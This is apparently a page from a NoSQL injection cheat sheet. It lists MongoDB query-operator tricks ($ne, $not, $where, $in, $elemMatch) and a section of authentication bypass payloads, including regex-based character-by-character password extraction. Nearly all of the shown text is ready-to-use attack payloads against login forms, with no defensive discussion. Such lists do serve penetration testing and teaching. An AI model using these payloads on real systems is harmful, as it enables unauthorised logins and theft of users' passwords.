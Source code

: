 ### Operator Alternative Obfuscation

```javascript
// Alternative to $ne
{"username": {"$not": {"$eq": "admin"}}}

// Alternative to $gt
{"username": {"$not": {"$lt": "admin"}}}

// Using $where instead of comparison operators
{"$where": "this.username != 'admin'"}
```

### Array-based Bypass

```javascript
// Using $in with a large array
{"username": {"$in": ["admin", "user", "moderator"]}}

// Using $elemMatch for nested checks
{"credentials": {"$elemMatch": {"username": "admin", "password": {"$ne": ""}}}}
```

### Multi-stage Injections

```javascript
// First find matching document ID
{"username": "admin"}

// Then use the ID in a second query with injection
{"_id": ObjectId("..."), "password": {"$ne": ""}}
```

## Common NoSQL Injection Testing Payloads

### MongoDB Authentication Bypass Payloads

```
# Simple authentication bypasses
username=admin&password[$ne]=anything
username[$ne]=not_admin&password[$ne]=not_password

# Regex-based extraction
username=admin&password[$regex]=^a
username=admin&password[$regex]=^b
...and so on

# Regex with OR operators
username=admin&password[$regex]=^(a|b)

# Using $exists
username=admin&password[$exists]=false

# Using $in operator
username[$in][]=admin&password[$ne]=anything
```
